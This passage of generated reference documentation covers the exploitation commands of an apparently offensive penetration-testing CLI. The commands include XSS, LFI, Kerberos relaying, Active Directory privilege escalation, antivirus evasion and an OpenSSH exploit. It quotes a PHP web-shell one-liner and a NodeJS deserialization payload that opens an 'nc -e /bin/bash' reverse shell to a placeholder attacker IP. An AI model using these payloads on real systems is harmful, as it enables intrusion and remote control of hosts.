*Calls:* [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn)

<a id="exploitmigratedcommandset-do_xss"></a>

#### `ExploitMigratedCommandSet.do_xss`

`method` | [cli/commands/exploit_migrated.py:1090](../../cli/commands/exploit_migrated.py#L1090)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_xss(self, line)
```

Executes the XSS (Cross-Site Scripting) vulnerability testing procedure using user-defined parameters and configurations.

This method guides the user through the process of setting up and
executing XSS payload injections against a specified target self.params['domain'].
It prompts the user for necessary input, including the XSS payload
URL, the target self.params['domain'], and the request timeout settings. The
function ensures that all required inputs are provided and valid
before proceeding with the injection process.

This method leverages user input for flexibility, allowing
customized testing scenarios for XSS vulnerabilities.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | A line of input that may contain additional parameters or commands (not utilized within this method). |

**Raises**

- `ValueError`: If the provided payload URL or target self.params['domain'] is empty,
indicating that these are required for the injection
process.

*Calls:* [`print_msg`](core.console.py.md#print_msg), [`inject_payloads`](utils.py.md#inject_payloads), [`prompt`](utils.py.md#prompt)

<a id="exploitmigratedcommandset-do_template_helper_serializer"></a>

#### `ExploitMigratedCommandSet.do_template_helper_serializer`

`method` | [cli/commands/exploit_migrated.py:1135](../../cli/commands/exploit_migrated.py#L1135)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_template_helper_serializer(self, line)
```

Handles the creation and serialization of a template helper.

This function performs the following tasks:
1. Retrieves the filename and data to be written from the input line.
2. Initializes a template file and writes the data to it.
3. Serializes the template data and outputs the result.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | The input line containing the filename and data in the format "filename, data". |

**Returns:** None

**Raises**

- `None`

**Example**

```python
template_helper_serializer shell.php, <?php system($_GET[0]); ?>
```

*Calls:* [`print_msg`](core.console.py.md#print_msg), [`copy2clip`](utils.py.md#copy2clip)

<a id="exploitmigratedcommandset-do_xsstrike"></a>

#### `ExploitMigratedCommandSet.do_xsstrike`

`method` | [cli/commands/exploit_migrated.py:1179](../../cli/commands/exploit_migrated.py#L1179)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_xsstrike(self, line)
```

Command xsstrike: Installs and runs XSStrike for finding XSS vulnerabilities.

This function performs the following tasks:
1. Checks if XSStrike is already cloned in the external/.exploit directory.
2. Clones the XSStrike repository if not present.
3. Installs required dependencies.
4. Prompts the user for a target URL, crawling level, request method, encoding, and additional XSStrike options.
5. Executes XSStrike for testing vulnerabilities, supporting multiple features like fuzzing, blind XSS injection, crawling, and more.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | Optional argument for specifying the target URL, crawling level, encoding, and other XSStrike options. |

**Returns:** None

**Example**

```python
xsstrike -u http://example.com/search.php?q=query --crawl -l 3
```

*Calls:* [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn)

<a id="exploitmigratedcommandset-do_sireprat"></a>

#### `ExploitMigratedCommandSet.do_sireprat`

`method` | [cli/commands/exploit_migrated.py:1247](../../cli/commands/exploit_migrated.py#L1247)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_sireprat(self, line)
```

Command sireprat: Automates the setup and usage of SirepRAT to perform various attacks on a Windows IoT Core device.

This function performs the following tasks:
1. Installs required dependencies and sets up SirepRAT if not already installed.
2. Prompts the user to select from predefined attacks, including retrieving system information, executing commands, saving registry keys, and copying files.
3. Executes the selected attack on the target device, using the remote host IP stored in self.params['rhost'].

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | Optional argument for specifying attack type directly. |

**Returns:** None

**Example**

```python
sireprat
```

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`copy2clip`](utils.py.md#copy2clip)

<a id="exploitmigratedcommandset-do_upload_bypass"></a>

#### `ExploitMigratedCommandSet.do_upload_bypass`

`method` | [cli/commands/exploit_migrated.py:1359](../../cli/commands/exploit_migrated.py#L1359)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_upload_bypass(self, line)
```

Command upload_bypass: Automates the installation and execution of Upload_Bypass for performing file upload bypass tests.

This function performs the following tasks:
1. Clones and installs Upload_Bypass if not already installed.
2. Prompts the user for the type of execution mode (Detection, Exploitation, or Anti-Malware).
3. Prepares and executes the chosen mode based on user input: success message, forbidden extension, upload directory, and proxy settings.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | Optional argument for specifying execution mode, request file, success message, forbidden extension, and other Upload_Bypass options. |

**Returns:** None

**Example**

```python
upload_bypass --detect --request_file test --success 'File uploaded successfully' --extension php --upload_dir /uploads --burp
```

*Calls:* [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`get_users_dic`](utils.py.md#get_users_dic)

<a id="exploitmigratedcommandset-do_pywhisker"></a>

#### `ExploitMigratedCommandSet.do_pywhisker`

`method` | [cli/commands/exploit_migrated.py:1420](../../cli/commands/exploit_migrated.py#L1420)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_pywhisker(self, line)
```

Executes the pyWhisker tool for manipulating the msDS-KeyCredentialLink attribute of a target user or computer.

This function performs the following actions:
1. Checks if pyWhisker is installed; if not, it clones the repository.
2. Executes various actions on the msDS-KeyCredentialLink attribute, allowing actions like listing, adding,
spraying, removing, clearing, exporting, or importing KeyCredentials for a specified target user or computer.

The command accepts different authentication options:
- NTLM (Clelazyt password or Pass-the-hash)
- Kerberos (Clelazyt password, Pass-the-key, Pass-the-cache)

line (str): Command argument specifying the pyWhisker action and options.
            Expected format:
                - -t TARGET_SAMNAME or -tl TARGET_SAMNAME_LIST for the target account(s)
                - -a ACTION to specify the action (list, add, spray, remove, clear, info, export, import)
                - Optional flags for authentication and connection

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`get_credentials`](utils.py.md#get_credentials)

<a id="exploitmigratedcommandset-do_owneredit"></a>

#### `ExploitMigratedCommandSet.do_owneredit`

`method` | [cli/commands/exploit_migrated.py:1470](../../cli/commands/exploit_migrated.py#L1470)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_owneredit(self, line)
```

Executes the Impacket owneredit tool for manipulating ownership of Active Directory objects.

This function performs the following actions:
1. Prompts the user for necessary parameters if not provided.
2. Executes the command to change the owner of a specified target in Active Directory.

The command accepts the following parameters:
- New owner (user) for the target object.
- Target object to be manipulated.
- Domain credentials for authentication.
- DC IP address for the self.params['domain'] controller.

line (str): Command argument specifying the new owner and target options.
            Expected format:
                - -new-owner NEW_OWNER for the new owner
                - -target TARGET_OBJECT for the target object
                - Required flags for authentication and connection

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`get_credentials`](utils.py.md#get_credentials)

<a id="exploitmigratedcommandset-do_gettgtpkinit_py"></a>

#### `ExploitMigratedCommandSet.do_gettgtpkinit_py`

`method` | [cli/commands/exploit_migrated.py:1516](../../cli/commands/exploit_migrated.py#L1516)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_gettgtpkinit_py(self, line)
```

Executes the gettgtpkinit.py tool from PKINITtools to request a TGT using Kerberos PKINIT with a PFX or PEM certificate.

This function performs the following actions:
1. Checks if PKINITtools is installed; if not, it clones the repository and installs dependencies.
2. Requests a TGT using the specified PFX or PEM certificate and outputs the TGT to the specified ccache file.

line (str): Command arguments specifying the certificate file and ccache location.
            Expected format:
                - self.params['domain']/username ccache
                - Additional flags like -cert-pfx file, -pfx-pass password, -cert-pem file, etc.

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`get_credentials`](utils.py.md#get_credentials), [`get_users_dic`](utils.py.md#get_users_dic)

<a id="exploitmigratedcommandset-do_gets4uticket_py"></a>

#### `ExploitMigratedCommandSet.do_gets4uticket_py`

`method` | [cli/commands/exploit_migrated.py:1567](../../cli/commands/exploit_migrated.py#L1567)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_gets4uticket_py(self, line)
```

Executes the gets4uticket.py tool from PKINITtools to request an S4U2Self service ticket using Kerberos.

This function performs the following actions:
1. Checks if PKINITtools is installed; if not, it clones the repository and installs dependencies.
2. Requests a service ticket using the S4U2Self protocol and outputs it to the specified ccache file.

line (str): Command arguments specifying the kerberos_connection_url, SPN, target user, and ccache.
            Expected format:
                - kerberos_connection_url spn targetuser ccache
                - Additional flags like -v for verbose output.

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`get_credentials`](utils.py.md#get_credentials)

<a id="exploitmigratedcommandset-do_aclpwn_py"></a>

#### `ExploitMigratedCommandSet.do_aclpwn_py`

`method` | [cli/commands/exploit_migrated.py:1614](../../cli/commands/exploit_migrated.py#L1614)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_aclpwn_py(self, line)
```

Executes the aclpwn.py tool to find and exploit ACL paths for privilege escalation in an Active Directory environment.

This function performs the following actions:
1. Checks if aclpwn is installed; if not, it installs the package.
2. Finds an exploit path using specified starting and target points in Active Directory.
3. Executes the path to escalate privileges if the path is found.

line (str): Command arguments specifying the find and target points, self.params['domain'], and optional flags.
            Expected format:
                - -f starting_point -ft starting_type -d self.params['domain']
                - Additional flags like -t target, -tt target_type, --server, -dry, --restore, etc.

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn)

<a id="exploitmigratedcommandset-do_addspn_py"></a>

#### `ExploitMigratedCommandSet.do_addspn_py`

`method` | [cli/commands/exploit_migrated.py:1662](../../cli/commands/exploit_migrated.py#L1662)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_addspn_py(self, line)
```

Executes the addspn.py tool to manage Service Principal Names (SPNs) on Active Directory accounts via LDAP.

This function performs the following actions:
1. Checks if Krbrelayx is installed; if not, it clones the repository and installs dependencies.
2. Adds, removes, or queries SPNs on the specified target based on the provided options.

line (str): Command arguments specifying the target hostname, user credentials, and SPN actions.
            Expected format:
                - hostname user password target spn -options
                - Options include:
                - -r to remove an SPN
                - -q to query current SPNs
                - -a to add SPN via msDS-AdditionalDnsHostName

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`get_credentials`](utils.py.md#get_credentials)

<a id="exploitmigratedcommandset-do_printerbug_py"></a>

#### `ExploitMigratedCommandSet.do_printerbug_py`

`method` | [cli/commands/exploit_migrated.py:1706](../../cli/commands/exploit_migrated.py#L1706)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_printerbug_py(self, line)
```

Executes the printerbug.py tool to trigger the SpoolService bug via RPC backconnect.

This function performs the following actions:
1. Checks if Krbrelayx is installed; if not, it clones the repository and installs dependencies.
2. Executes the printerbug tool to attempt an RPC backconnect to the specified attacker host.

line (str): Command arguments specifying the target and attacker host.
            Expected format:
                - target_username@target_host attacker_host

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`copy2clip`](utils.py.md#copy2clip), [`get_credentials`](utils.py.md#get_credentials)

<a id="exploitmigratedcommandset-do_krbrelayx_py"></a>

#### `ExploitMigratedCommandSet.do_krbrelayx_py`

`method` | [cli/commands/exploit_migrated.py:1760](../../cli/commands/exploit_migrated.py#L1760)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_krbrelayx_py(self, line)
```

Executes the krbrelayx.py tool for Kerberos relaying or unconstrained delegation abuse.

This function performs the following actions:
1. Checks if Krbrelayx is installed; if not, it clones the repository and installs dependencies.
2. Relays Kerberos tickets or abuses unconstrained delegation to access target services.

line (str): Command arguments specifying the target and options.
            Expected format:
                - target options
                - Options include:
                - -t target_host to specify the target host
                - -l loot directory to save TGTs or dump information

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`get_credentials`](utils.py.md#get_credentials)

<a id="exploitmigratedcommandset-do_autoblody"></a>

#### `ExploitMigratedCommandSet.do_autoblody`

`method` | [cli/commands/exploit_migrated.py:1805](../../cli/commands/exploit_migrated.py#L1805)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_autoblody(self, line)
```

Executes the autobloody tool for automating Active Directory privilege escalation paths.

This function performs the following actions:
1. Checks if autobloody is installed; if not, it clones the repository and installs dependencies.
2. Executes the autobloody command to find and exploit privilege escalation paths.

line (str): Command arguments specifying the source and target objects and options.
            Expected format:
                - -u username for NTLM authentication
                - -p password for NTLM authentication
                - --host domain_controller_ip for the IP of the Domain Controller
                - -dp neo4j_password for Neo4j database password
                - -ds source_label for the source node label in BloodHound
                - -dt target_label for the target node label in BloodHound

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`is_autonomous`](core.autonomous.py.md#is_autonomous), [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`is_binary_present`](core.process.py.md#is_binary_present), [`get_credentials`](utils.py.md#get_credentials)

<a id="exploitmigratedcommandset-do_unicode_wafbypass"></a>

#### `ExploitMigratedCommandSet.do_unicode_WAFbypass`

`method` | [cli/commands/exploit_migrated.py:1869](../../cli/commands/exploit_migrated.py#L1869)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_unicode_WAFbypass(self, line)
```

We open a Netcat listener on port 443 and attempt to exploit NodeJS deserialization by sending the following payload: {"rce":"_$$ND_FUNC$$_function() {require('child_process').exec('nc -e /bin/bash 10.10.xx.xx 443',function(error,stdout,stderr) {console.log (stdout) }); }()"} Some WAF can be bypassed with the use of unicode characters.

Generate an obfuscated payload, encode it in base64, and append the SSH public key to the authorized_keys file.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

**Returns:** `str` - The base64-encoded obfuscated payload.

*Calls:* [`print_msg`](core.console.py.md#print_msg)

<a id="exploitmigratedcommandset-do_sqli_mssql_test"></a>

#### `ExploitMigratedCommandSet.do_sqli_mssql_test`

`method` | [cli/commands/exploit_migrated.py:1924](../../cli/commands/exploit_migrated.py#L1924)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_sqli_mssql_test(self, line)
```

Initiates a reverse MSSQL shell by starting an HTTP server to handle incoming connections and exfiltrate data.

This function does the following:
1. Starts an HTTP server to listen for connections from the MSSQL server.
2. Intercepts and decodes responses from the target server.
3. Prompts the user to enter commands, sends them to the target, and displays the output.

line (str): Unused command argument from the cmd2 prompt.

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`MyServer`](utils.py.md#myserver), [`activate_server`](utils.py.md#activate_server)

<a id="exploitmigratedcommandset-do_pyoracle2"></a>

#### `ExploitMigratedCommandSet.do_pyoracle2`

`method` | [cli/commands/exploit_migrated.py:1962](../../cli/commands/exploit_migrated.py#L1962)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_pyoracle2(self, line)
```

Executes the pyOracle2 tool for performing padding oracle attacks.

This function performs the following actions:
1. Verifies the presence of the pyOracle2 tool; if not installed, it clones the repository and installs dependencies.
2. Prompts the user for configuration parameters or retrieves them from self.params to create a job-specific configuration file.
3. Executes the pyOracle2 tool using the generated configuration file and specified options.

line (str): Command arguments specifying additional tool options if required.
            Expected format: [optional parameters]

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn)

<a id="exploitmigratedcommandset-do_lfi"></a>

#### `ExploitMigratedCommandSet.do_lfi`

`method` | [cli/commands/exploit_migrated.py:2044](../../cli/commands/exploit_migrated.py#L2044)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_lfi(self, line)
```

Exploits a potential Local File Inclusion (LFI) vulnerability by crafting and sending HTTP GET requests to a specified URL.

The user can specify the target URL directly via the `line` parameter or
provide it interactively. If no URL is provided, the method uses a default
value stored in `self.params['url']`. Users are then prompted to specify
the file to retrieve from the server, defaulting to `/etc/passwd`.

Behavior:
    - Continuously prompts the user to specify a file to fetch via the
    target LFI vulnerability.
    - Sends a GET request to the constructed URL and prints the server's
    response to the console.
    - Allows users to inspect different files on the target server by
    modifying the file path interactively.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | Optional URL input provided directly in the command line. If not supplied, a default URL from `self.params['url']` will be used. |

*Calls:* [`print_msg`](core.console.py.md#print_msg)

<a id="exploitmigratedcommandset-do_greatsct"></a>

#### `ExploitMigratedCommandSet.do_greatSCT`

`method` | [cli/commands/exploit_migrated.py:2086](../../cli/commands/exploit_migrated.py#L2086)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_greatSCT(self, line)
```

Executes the GreatSCT tool for generating payloads that bypass antivirus and application whitelisting solutions.

This function performs the following actions:
1. Verifies the presence of the GreatSCT tool; if not installed, it clones the repository and installs dependencies.
2. Configures and generates the payload using user-provided or default parameters.
3. Executes the GreatSCT tool with the specified options.

line (str): Command arguments specifying additional tool options if required.
            Expected format: [--ip <IP> --port <PORT> --tool <TOOL> --payload <PAYLOAD>]

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn)

<a id="exploitmigratedcommandset-do_sqsh"></a>

#### `ExploitMigratedCommandSet.do_sqsh`

`method` | [cli/commands/exploit_migrated.py:2131](../../cli/commands/exploit_migrated.py#L2131)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_sqsh(self, line)
```

Executes the Impacket sqsh tool for manipulating ownership of Active Directory objects.

This function performs the following actions:
1. Prompts the user for necessary parameters if not provided.
2. Executes the command to change the owner of a specified target in Active Directory.

The command accepts the following parameters:
- New owner (user) for the target object.
- Target object to be manipulated.
- Domain credentials for authentication.
- DC IP address for the self.params['domain'] controller.

line (str): Command argument specifying the new owner and target options.
            Expected format:
                - -new-owner NEW_OWNER for the new owner
                - -target TARGET_OBJECT for the target object
                - Required flags for authentication and connection

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`get_credentials`](utils.py.md#get_credentials)

<a id="exploitmigratedcommandset-do_jwt_tool"></a>

#### `ExploitMigratedCommandSet.do_jwt_tool`

`method` | [cli/commands/exploit_migrated.py:2176](../../cli/commands/exploit_migrated.py#L2176)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_jwt_tool(self, line)
```

Uses the jwt_tool to analyze, tamper, or exploit JSON Web Tokens (JWTs).

This function performs the following actions:
1. Verifies the presence of jwt_tool; if not installed, it clones the repository and installs dependencies.
2. Accepts a JWT token as input or uses the provided argument for analysis.
3. Executes jwt_tool with the specified options and prints the results.

line (str): Command argument containing a JWT token to analyze. If not provided, prompts the user for a token.

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn)

<a id="exploitmigratedcommandset-do_filtering"></a>

#### `ExploitMigratedCommandSet.do_filtering`

`method` | [cli/commands/exploit_migrated.py:2220](../../cli/commands/exploit_migrated.py#L2220)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_filtering(self, line)
```

Applies various filtering techniques to the given command line by modifying each character or word appropriately.

This function takes any command and generates variations of it using several filtering techniques, including:
1. Quote filtering.
2. Slash filtering.

line (str): The input command to be filtered.

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_msg`](core.console.py.md#print_msg), [`copy2clip`](utils.py.md#copy2clip)

<a id="exploitmigratedcommandset-do_lol"></a>

#### `ExploitMigratedCommandSet.do_lol`

`method` | [cli/commands/exploit_migrated.py:2246](../../cli/commands/exploit_migrated.py#L2246)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_lol(self, line)
```

Exploits a target by injecting a malicious payload and collecting admin information.

This function performs the following steps:
1. Logs in to the application with provided credentials.
2. Injects a malicious payload to elevate the role of a user to 'admin.'
3. Executes a secondary payload to exfiltrate admin tokens by abusing '/api/info.'
4. Prepares for further exploitation using '/admin' and '/api/json-rpc'.

line (str): Additional parameters for the target.

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg)

<a id="exploitmigratedcommandset-do_utf"></a>

#### `ExploitMigratedCommandSet.do_utf`

`method` | [cli/commands/exploit_migrated.py:2331](../../cli/commands/exploit_migrated.py#L2331)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_utf(self, line)
```

Encode a given payload into UTF-16 escape sequences.

This function takes a payload string and encodes each character into its
UTF-16 hexadecimal representation (e.g., [`A`](static.js.quill-2.0.3.js.md#a) becomes [`A`](static.js.quill-2.0.3.js.md#a)). If no
payload is provided as input, it prompts the user to input one, with a
default value of `' or 1=1-- -`.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | The input payload to encode. If empty, the user is prompted to provide one interactively. |

**Returns:** `None` - The encoded payload is printed to the console.

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg)

<a id="exploitmigratedcommandset-do_digdug"></a>

#### `ExploitMigratedCommandSet.do_digdug`

`method` | [cli/commands/exploit_migrated.py:2375](../../cli/commands/exploit_migrated.py#L2375)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_digdug(self, line)
```

Executes Dig Dug to inflate the size of an executable file, leveraging pre-configured settings and interactive input for minimal user effort.

This function integrates with the Dig Dug tool to increase an executable's size by appending
dictionary words. It automates repository setup, selects the input file from user prompts or defaults,
and uses sensible configurations to execute the inflation process. Dig Dug is particularly useful
for evading AV/EDR detections by exceeding size thresholds for analysis.

Behavior:
    - Automatically clones the Dig Dug repository if not already present in `external/.exploit/DigDug`.
    - Calls the `venom` command to prepare the necessary payloads for execution.
    - Prompts the user to select an input executable and specify the desired size increase.
    - Uses a default dictionary (`google-10000-english-usa-gt5.txt`) for padding.

Requirements:
    - A Python environment with required dependencies.
    - Executable files available in the working directory or `sessions`.

Usage:
    Invoke this function to inflate the size of a generated payload or user-specified executable.
    Interactive prompts will guide the input selection and size configuration.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

**Example**

```python
1. Increase the size of a selected payload by 100 MB:
    >>> digdug

2. Use the default configurations to inflate an executable:
    No additional parameters are required. The user is prompted for size and file selection.
```

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`get_users_dic`](utils.py.md#get_users_dic)

<a id="exploitmigratedcommandset-do_sshexploit"></a>

#### `ExploitMigratedCommandSet.do_sshexploit`

`method` | [cli/commands/exploit_migrated.py:2433](../../cli/commands/exploit_migrated.py#L2433)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_sshexploit(self, line)
```

Exploits OpenSSH vulnerability CVE-2023-38408 via the PKCS#11 feature of the ssh-agent.

Steps:
1. Attacker connects via SSH to a target server.
2. Identify and export the SSH_AUTH_SOCK environment variable.
3. Send crafted shellcode to exploit the PKCS#11 vulnerability.
4. Load malicious libraries via ssh-add and trigger SIGSEGV for code execution.

Usage:
    do_sshexploit

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

**Example**

```python
do_sshexploit
```

> **Note:** This function is for educational purposes only. Unauthorized exploitation is illegal.

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg)

<a id="exploitmigratedcommandset-do_excelntdonut"></a>

#### `ExploitMigratedCommandSet.do_excelntdonut`

`method` | [cli/commands/exploit_migrated.py:2502](../../cli/commands/exploit_migrated.py#L2502)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_excelntdonut(self, line)
```

Generates an Excel 4.0 (XLM) macro from a provided C# source file using EXCELntDonut.

This function:
    - Installs EXCELntDonut dependencies if not already installed.
    - Clones the EXCELntDonut repository if not present.
    - Compiles the provided C# source file into shellcode.
    - Generates the XLM macro and saves it to a specified output file.

Behavior:
    - Requires `mono-complete` and `pip3` with required Python packages installed.
    - Accepts parameters for input file, references, sandbox checks, obfuscation, and output file.
    - Outputs the generated macro in a `.txt` or `.csv` format.

Usage:
    excelntdonut -f <source_file.cs> -r <references> [--sandbox] [--obfuscate] [-o <output_file>]

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

**Raises**

- `ValueError`: (raised in the body, not documented)

**Example**

```python
excelntdonut -f payload.cs -r System.Windows.Forms.dll --sandbox --obfuscate -o macro.txt
```

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`get_users_dic`](utils.py.md#get_users_dic)

<a id="exploitmigratedcommandset-do_ntpdate"></a>

#### `ExploitMigratedCommandSet.do_ntpdate`

`method` | [cli/commands/exploit_migrated.py:2558](../../cli/commands/exploit_migrated.py#L2558)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_ntpdate(self, line)
```

Synchronizes the system clock with a specified NTP server.

This method constructs the target NTP server address using the self.params['domain'] and subdomain
parameters. It then prompts the user to confirm or modify the target address.
Finally, it executes the `ntpdate` command to synchronize the system clock with
the specified NTP server.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | The command line input (not used in this method). |

**Returns:** None

*Calls:* [`print_msg`](core.console.py.md#print_msg)

<a id="exploitmigratedcommandset-do_adcs_check"></a>

#### `ExploitMigratedCommandSet.do_adcs_check`

`method` | [cli/commands/exploit_migrated.py:2582](../../cli/commands/exploit_migrated.py#L2582)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_adcs_check(self, line)
```

Check Active Directory Certificate Services for ESC1-ESC8 vulnerabilities.

Usage: adcs_check <username> <password> <domain> <dc_ip> [ntlm_hash]

Enumerates certificate templates and maps them to applicable
ESC attack techniques. Uses Certipy under the hood.
Auto-installs certipy-ad if missing.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`is_binary_present`](core.process.py.md#is_binary_present), [`ADCSCertipyWrapper.__init__`](modules.adcs_attacks.py.md#adcscertipywrapper-__init__), [`ADCSCertipyWrapper.assess_vulnerability`](modules.adcs_attacks.py.md#adcscertipywrapper-assess_vulnerability)

<a id="exploitmigratedcommandset-do_chain"></a>

#### `ExploitMigratedCommandSet.do_chain`

`method` | [cli/commands/exploit_migrated.py:2641](../../cli/commands/exploit_migrated.py#L2641)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_chain(self, line: str) -> None
```

Run autonomous exploitation chain: recon -> vuln -> exploit -> post-exploit.

Usage:
    chain [rhost] [nmap_xml_path]   Analyze target and generate exploit plan
    chain report                     Show last chain report

If no rhost is given, uses the current rhost from payload.json.
If no nmap_xml_path is given, auto-discovers all scan_*.nmap.xml in sessions/.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`ExploitChain.__init__`](modules.exploit_chain.py.md#exploitchain-__init__), [`ExploitChain.fingerprint_services`](modules.exploit_chain.py.md#exploitchain-fingerprint_services), [`ExploitChain.generate_exploit_plan`](modules.exploit_chain.py.md#exploitchain-generate_exploit_plan), [`ExploitChain.get_post_exploit_commands`](modules.exploit_chain.py.md#exploitchain-get_post_exploit_commands), [`ExploitChain.map_vulnerabilities`](modules.exploit_chain.py.md#exploitchain-map_vulnerabilities), [`ExploitChain.save_report`](modules.exploit_chain.py.md#exploitchain-save_report)

<a id="exploitmigratedcommandset-do_exploit_recommend"></a>

#### `ExploitMigratedCommandSet.do_exploit_recommend`

`method` | [cli/commands/exploit_migrated.py:2738](../../cli/commands/exploit_migrated.py#L2738)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_exploit_recommend(self, line)
```

AI-powered exploit recommendation — matches discovered services to CVEs.

Usage:
    exploit_recommend               Show top 10 recommendations
    exploit_recommend <N>           Show top N recommendations
    exploit_recommend json          Output as JSON

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

